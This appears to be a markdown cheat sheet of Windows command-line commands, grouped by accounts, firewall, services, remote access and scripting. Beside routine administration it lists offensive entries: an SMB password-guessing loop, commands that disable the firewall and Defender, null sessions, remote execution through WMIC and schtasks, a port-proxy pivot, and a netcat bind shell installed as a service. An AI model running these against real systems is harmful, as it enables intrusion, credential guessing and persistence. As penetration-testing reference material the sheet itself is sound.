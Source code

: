 ```yaml
---
title: Windows Commands
category: Misc
order: 4
---
```


>**Windows Commands**

Category | Topic | Command | Example
Accounts and Privileges | Lauch with Admin Privs | ctrl+shift+enter | 
Accounts and Privileges | SID | S-[revision level]-[authority level]-[domain/computer]-RID | 
Accounts and Privileges | Admin RID | 500 | 
Accounts and Privileges | Guest RID | 501 | 
Accounts and Privileges | Users RID | 1001 and up | 
Accounts and Privileges | Add or Remove a User | net user [username] [password] /add or /del | termservice, telnet
Accounts and Privileges | Add or Remove user to a group | net localgroup [group] [username] /add or /del | "Remote Desktop Users", TelnetClients, Administrators
Accounts and Privileges | List Local Users | net user | 
Accounts and Privileges | List Groups | net localgroup | 
Accounts and Privileges | List Administrators | net localgroup administrators | 
Accounts and Privileges | List Account Policy | net accounts or net accounts /domain | 
Accounts and Privileges | Password Guess | for /f %i in 9password.lst) do @echo %i & @net use \\[tartet_IP_addr] %i /u:[UserName] 2>nul && echo [UserName]: %i >> success.txt | 
Accounts and Privileges | Run Progarm as another user | runas /u:fred "cmd /c echo Hello!", runas /smartcard "cmd /c echo Hello!" | 
AntiVirus | Turn off Windows Defender | control /name Microsoft.WindowsDefender | 
AntiVirus | Turn off Smart Screen | control /name Microsoft.ActionCenter | 
Inventory, File Search, and Counting | Count Lines | type "file" | find /c /v "" | 
Inventory, File Search, and Counting | Inventory Software | "dir /s ""c:\Program Files"" > inventory.txt
dir /s ""c:\Program Files (x86)"" >> inventory.txt" | 
Inventory, File Search, and Counting | Display File Contents | type [file], type *.[ext], type [file1] [file2] | 
Inventory, File Search, and Counting | Search in FIle | <code> type [file] | find /i "[string]", type [file] | findstr [regex] </code> | 
Inventory, File Search, and Counting | See Environment Variables | set, set [variable_name] | username, path
Inventory, File Search, and Counting | Search for File | dir /b /s [directory]\[file]  (use ^ to escape spaces) | dir /b /s %systemroot%\hosts
Inventory, File Search, and Counting | Read Registry Key | reg query [keyName] | 
Inventory, File Search, and Counting | Change Registry Key | reg add [KeyName] /v [ValueName] /t [type] /d [data | 
Inventory, File Search, and Counting | Export Registry Keys | reg export [keyName] [filename.reg] | 
Inventory, File Search, and Counting | Import Registry Keys | reg import [filename.reg] | 
Inventory, File Search, and Counting | Find a String  | find "[string]", findstr [regex] | 
Network and Firewalls | Network Activity | <code> netstat -na | find ":[port]"</code> | 
Network and Firewalls | DNS cahce | ipconfig /displaydns | 
Network and Firewalls | Turn firewall off | netsh advfirewall set allprofiles state off | 
Network and Firewalls | Firewall Rule | netsh advfirewall firewall add rule name="<name>" dir=in action=allow remoteip=[yourIPaddress] protocol=TCP localport=<port number> | 3389, 23
Network and Firewalls | Delete Firewall Rule | netsh advfirewall firewall del rule name="<name>" | 
Network and Firewalls | Disable Firewall | netsh advfirewall set allprofiles state off | 
Network and Firewalls | Firewall Rule Registry | reg add HKLM\SYSTEM\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy\StandardProfile\GloballyOpenPorts\List /V 2000:TCP /T REG_SZ /F /D "2000:TCP:*:Enabled" | 
Network and Firewalls | View Firewall Configuration | netsh advfirewall show allprofiles | 
Network and Firewalls | Ping Sweep | <code> for /L %i in (1, 1, 255) do @ping -n 1 192.168.2.%i | find "TTL" </code> |
 
Network and Firewalls | DNS Lookup | for /L %i in (1, 1, 255) do @echo 10.10.10.%i & nslookup 10.10.10.%i  2>nul | find "Name" | 
Network and Firewalls | Netsh pivot | netsh interface portproxy add v4tov4 listenport=<LPORT> listenaddress=0.0.0.0 connectport=<RPORT> connectaddress=<RHOST> | 
Process and Service | Install a service | "pkgmgr /iu:""<servicename>""
dism /online /Enable-Features /FeatureName:TelnetServer" | 
Process and Service | List Running Services | sc query | 
Process and Service | List All Services | sc query state= all | 
Process and Service | List Remote Services  | sc \\[targetIP] query | 
Process and Service | Check status of service | sc query [service name] | 
Process and Service | Start/Stop a service | sc start/stop [service name] | 
Process and Service | Change Startup type of service | sc config [servicename] start= demand | termservice, telnet
Process and Service | Delete Service | sc delete [service name] | 
Process and Service | List Processes | tasklist | 
Process and Service | Kill a Process | taskkill /PID [process_ID] | 
Remote Access, SMB, and WMIC | See Current Privileges | whoami | 
Remote Access, SMB, and WMIC | Windows null session | net use \\targetip "" /u:"" | 
Remote Access, SMB, and WMIC | Establish an SMB session | net use \\[targetIP] [password] /u:[user] | 
Remote Access, SMB, and WMIC | Mount a Share on Target | "net use * \\[targetIP]\[share] [password] /u:[user] <br> net use * \\[targetIP]\[share] [password] /u:[MachineName_or_Domain]\[user]" | 
Remote Access, SMB, and WMIC | Dropping SMB Session | "net use \\[targetIP] /del <br> net use * /del" | 

Remote Access, SMB, and WMIC | Run a Remote Command | sc \\[targetIP] create netcat binpath= "cmd.exe /k c:\tools\nc.exe -L -p cmd.exe" | 
Remote Access, SMB, and WMIC | Turn on Remote Desktop / terminal services | reg add "hklm\system\currentcontrolset\control\terminal server" /v fdenysconnetions /t reg_dword /d 0 | 
Remote Access, SMB, and WMIC | Remote Registry  | Put \\[MachineName] before [KeyName] | 
Remote Access, SMB, and WMIC | WMIC Invoke Porgram | wmic /node:[targetIP] /user:[admin_user] /password:[password] process call create [command] | 
Remote Access, SMB, and WMIC | WMIC on Multiple Machines | /node:@[filename] - run a command on multiple machines listed in a file | 
Remote Access, SMB, and WMIC | WMIC Service Query | wmic services where (displayname like "%[whatever]%") get name | 
Remote Access, SMB, and WMIC | WMIC List Processes | wmic /node:[targetIP] /user:[admin_user] /password:[password] process list brief | 
Remote Access, SMB, and WMIC | WMIC Kill Processes | wmic /node:[targetIP] /user:[admin_user] /password:[password] process where name="[name]" delete or processID="[PID]" delete | 
Remote Access, SMB, and WMIC | WMIC Monitor Process | wmic process where name="[name]" list brief /every:1 | "nc.exe"
Remote Access, SMB, and WMIC | at (windows 7 and lower)(all commands at SYSTEM) | "net use \\[targetIP] [password] /u:[admin_user]
sc \\[targetIP] query schedule (*make sure it is running*)
*sc \\[targetIP] start schedule*
at [\\targetIP] [HH:MM] [A|P] [command]
at \\[machine] [time] cmd /c ""[command]""
at \\[targetIP} (*check status*)" | 
Remote Access, SMB, and WMIC | schtasksStart TIme - HH:MM:SSFrequency: MINUTE, HOURLY, DAILY, ONCE, ONSTART, ONLOGON, ONIDLE | "> net use \\[targetIP] [password] /u:[admin_user]
> sc \\[targetIP] query schedule (*make sure it is running*)
> *sc \\[targetIP] start schedule*
> schtasks /creat /tn [taskname] /s [targetIP] /u [user] /p [password] /sc [frequency]  /st [starttime] /sd [startdate] /tr [command]
> schtasks /query /s [targetIP]
>" | 
Remote Access, SMB, and WMIC | Simple Windows IIS Express Server | C:\Program Files (x86)\IIS Express\iisexpress.exe" /path:C:\tools /port:8001 | 
Scripting and Shell | Navigate History | F7 | 
Scripting and Shell | For Loops | "for /L %i in ([start], [step], [stop]) do [command]) 
*note: step of zero runs forever" | for /L %i in (1, 1, 255) do echo %i
Scripting and Shell | For Loops Iterate | for /F ["options"] %i in ([stuff]) do [command] | 
Scripting and Shell | Pause/Break | timeout /t 4 /nobreak | 
Scripting and Shell | Turn off command echo | @ | for /L %i in (1, 1, 255) do @echo %i
Scripting and Shell | Multiple Commands | & | for /L %i in (1, 1, 255) do @echo %i & timeout /t 4 /nobreak
Scripting and Shell | Multiple Successful Commands | && | 
Scripting and Shell | Throw Away Output | >nul | for /L %i in (1, 1, 255) do @echo %i & timeout /t 4 /nobreak > null
Scripting and Shell | Print Blank Line or Beap | echo., echo CTRL-G | 
Scripting and Shell | CR/LF (0d0a) | Windows use CR/LF as EOF characters. | 

